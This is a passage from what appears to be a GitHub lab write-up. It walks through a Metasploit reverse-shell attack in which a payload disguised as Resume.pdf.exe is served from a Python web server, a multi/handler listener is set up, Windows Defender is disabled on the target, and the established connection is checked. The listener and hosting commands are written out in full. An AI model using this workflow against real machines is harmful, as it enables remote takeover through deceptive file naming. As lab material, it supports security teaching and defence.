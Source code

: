 <img src="https://i.imgur.com/I1WF6Pd.png" width="500" > <br> <sup>Ref 2: Creation of a reverse tcp payload called Resume.pdf.exe </sup>

**Handler to listen to payload** <br>
In Metasploit use the exploit multi-handler to change the name of the payload to `windows/x64/meterpreter_reverse_tcp` Change lhost to the attacker machine `192.168.10.250` then start the exploit 
```bash
$ msfconsole 
$ use exploit/multi/handler
$ set payload windows/x64/meterpreter_reverse_tcp
$ set lhost 192.168.10.250
$ exploit
```
<img src="https://i.imgur.com/z9RtONS.png.png" width="400" height="98" ><img src="https://i.imgur.com/W9bY3QX.png" width="370" > <br> <sup>Ref 3: Change name & Lhost </sup>

**Setup HTTP Server** <br>
Open a new terminal, Change the directory to where the malware is `desktop` Create a web server to host malware with Python using port 9999
```bash
$ cd desktop
$ python3 -m http.server 9999
```
<img src="https://i.imgur.com/dc3wljX.png" width="500" > <br> <sup>Ref 4: Malware file on webserver port 9999 </sup>

## The following will be done on the target Windows 10 machine

**Disable Windows Defender** <br>
Search for Virus & Threat Protection. Click on manage setting protection and disable real-time protection

<img src="https://i.imgur.com/717CdP6.png" width="300" > <br> <sup>Ref 5: Real-time protection settings </sup>

**Visit Webserver to Download and Execute Malware** <br>
Open a web browser and type in `192.168.10.250:9999` <br> Click it and the download will start. <br>
When the malware is executed it will seem nothing has happened however the program is running.

<img src="https://i.imgur.com/ZZeIFyj.png" width="300" height="235" > <img src="https://i.imgur.com/ML2iFOp.png" width="370" > <br> <sup>Ref 6: Hosting file & Executable running </sup>

⚠️The file extension is not shown tricking the target into believing this is a `.pdf` file however it is an exe ⚠️ <br>
<img src="https://i.imgur.com/zModtgC.png" width="400" > <img src="https://i.imgur.com/kf8TKNH.png" width="400"  height="160" > <br> <sup>Ref 7: File name is used to trick the target into thinking the file is a .pdf </sup>

Run command prompt as admin. Find if an active established connection from Linux has been created with the Windows machine 
```bash
netstat -anob 
```
<img src="https://i.imgur.com/nJT4rFJ.png" width="500" > <br> <sup>Ref 8: Established connection from Linux to Windows created by malware file Resume.pdf.exe </sup>

**Connection Made** <br>
On Kali, the meterpreter will also show a connection is made.
